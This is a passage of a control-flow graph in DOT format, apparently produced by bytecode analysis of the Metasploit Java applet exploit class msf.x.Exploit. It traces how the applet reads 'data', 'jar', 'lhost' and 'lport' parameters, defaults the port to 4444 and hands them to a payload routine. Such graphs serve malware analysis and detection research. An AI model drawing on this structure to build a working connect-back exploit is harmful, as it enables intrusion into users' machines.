    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r6";
    "store.r r6"->"load.r r0";
    "push \"data\""
    "load.r r0"->"push \"data\"";
    "virtualinvoke <msf.x.Exploit: java.lang.String getParameter(java.lang.String)>"
    "push \"data\""->"virtualinvoke <msf.x.Exploit: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <msf.x.Exploit: java.lang.String getParameter(java.lang.String)>"->"store.r r6";
    "store.r r6"->"load.r r0";
    "push \"jar\""
    "load.r r0"->"push \"jar\"";
    "push \"jar\""->"virtualinvoke <msf.x.Exploit: java.lang.String getParameter(java.lang.String)>";
    "store.r r8"
    "virtualinvoke <msf.x.Exploit: java.lang.String getParameter(java.lang.String)>"->"store.r r8";
    "store.r r8"->"load.r r0";
    "push \"lhost\""
    "load.r r0"->"push \"lhost\"";
    "push \"lhost\""->"virtualinvoke <msf.x.Exploit: java.lang.String getParameter(java.lang.String)>";
    "store.r r9"
    "virtualinvoke <msf.x.Exploit: java.lang.String getParameter(java.lang.String)>"->"store.r r9";
    "store.r r9"->"load.r r0";
    "push \"lport\""
    "load.r r0"->"push \"lport\"";
    "push \"lport\""->"virtualinvoke <msf.x.Exploit: java.lang.String getParameter(java.lang.String)>";
    "store.r r10"
    "virtualinvoke <msf.x.Exploit: java.lang.String getParameter(java.lang.String)>"->"store.r r10";
    "store.r r10"->"load.r r3";
    "load.r r3"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r3";
    "load.r r10"
    "store.r r3"->"load.r r10";
    "ifnonnull load.r r10"
    "load.r r10"->"ifnonnull load.r r10";
    "push 4444"
    "ifnonnull load.r r10"->"push 4444";
    "store.i r10"
    "push 4444"->"store.i r10";
    "goto load.r r3"
    "store.i r10"->"goto load.r r3";
    "goto load.r r3"->"load.r r3";
    "load.r r3"->"load.r r0";
    "load.r r0"->"load.r r6";
    "load.r r8"
    "load.r r6"->"load.r r8";
    "load.r r9"
    "load.r r8"->"load.r r9";
    "load.i r10"
    "load.r r9"->"load.i r10";
    "staticinvoke <msf.x.Help: void doWork(msf.x.Help,msf.x.Exploit,java.lang.String,java.lang.String,java.lang.String,int)>"
    "load.i r10"->"staticinvoke <msf.x.Help: void doWork(msf.x.Help,msf.x.Exploit,java.lang.String,java.lang.String,java.lang.String,int)>";
    "goto return"
    "staticinvoke <msf.x.Help: void doWork(msf.x.Help,msf.x.Exploit,java.lang.String,java.lang.String,java.lang.String,int)>"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "staticinvoke <msf.x.Help: void doWork(msf.x.Help,msf.x.Exploit,java.lang.String,java.lang.String,java.lang.String,int)>"->"store.r r0";
    "ifnonnull load.r r10"->"load.r r10";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"
    "load.r r10"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"store.i r10";
}
